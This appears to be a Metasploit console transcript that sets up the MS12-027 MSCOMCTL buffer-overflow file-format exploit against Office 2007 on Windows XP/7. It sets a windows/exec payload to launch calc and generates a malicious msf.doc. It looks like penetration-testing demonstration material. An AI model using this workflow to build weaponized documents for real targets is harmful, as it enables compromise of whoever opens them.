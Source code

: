 ```
payload =&gt; windows/exec



msf exploit(ms12_027_mscomctl_bof) &gt; show options



Module options (exploit/windows/fileformat/ms12_027_mscomctl_bof):

   Name      Current Setting  Required  Description

   ----      ---------------  --------  -----------

   FILENAME  msf.doc          yes       The file name.



Payload options (windows/exec):

   Name      Current Setting  Required  Description

   ----      ---------------  --------  -----------

   CMD                        yes       The command string to execute

   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)



Exploit target:

   Id  Name

   --  ----

   0   Microsoft Office 2007 [no-SP/SP1/SP2/SP3] English on Windows [XP SP3 / 7 SP1] English



msf exploit(ms12_027_mscomctl_bof) &gt; set CMD calc

CMD =&gt; calc



msf exploit(ms12_027_mscomctl_bof) &gt; set target 0

target =&gt; 0



msf exploit(ms12_027_mscomctl_bof) &gt; exploit

[*] Creating 'msf.doc' file ...

[+] msf.doc stored at /root/.msf4/local/msf.doc
```
